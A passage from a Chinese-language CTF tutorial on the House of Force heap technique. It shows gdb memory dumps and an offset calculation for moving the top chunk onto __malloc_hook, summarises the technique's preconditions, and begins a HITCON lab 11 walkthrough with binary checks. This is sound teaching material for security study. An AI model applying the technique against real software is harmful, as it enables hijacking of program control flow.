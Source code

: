 可以看到 heap 的基址在 0x602000，而 libc 的基址在 0x7ffff7a0d000，因此我们需要通过 HOF 扩大 top chunk指针的值来实现对 malloc_hook 的写。
首先，由调试得知 __malloc_hook 的地址位于 0x7ffff7dd1b10 ，采取计算

0x7ffff7dd1b00-0x602020-0x10=140737345551056
经过这次 malloc 之后，我们可以观察到 top chunk 的地址被抬高到了 0x00007ffff7dd1b00

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b00 <=== top chunk
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们只要再次分配就可以控制 0x7ffff7dd1b10 处的 __malloc_hook 值了

```
rax = 0x00007ffff7dd1b10
    
0x400562 <main+60>        mov    edi, 0x10
0x400567 <main+65>        call   0x400410 <malloc@plt>
```

## 小总结
在这一节中讲解了 House Of Force 的原理并且给出了两个利用的简单示例，通过观察这两个简单示例我们会发现其实HOF的利用要求还是相当苛刻的。

* 首先，需要存在漏洞使得用户能够控制 top chunk 的 size 域。
* 其次，**需要用户能自由控制 malloc 的分配大小**
* 第三，分配的次数不能受限制

其实这三点中第二点往往是最难办的，CTF 题目中往往会给用户分配堆块的大小限制最小和最大值使得不能通过HOF 的方法进行利用。

## HITCON training lab 11
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/house-of-force/hitcontraning_lab11)

这里，我们主要修改其 magic 函数为



### 基本信息

```shell
➜  hitcontraning_lab11 git:(master) file bamboobox     
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
➜  hitcontraning_lab11 git:(master) checksec bamboobox 
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/hitcontraning_lab11/bamboobox'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
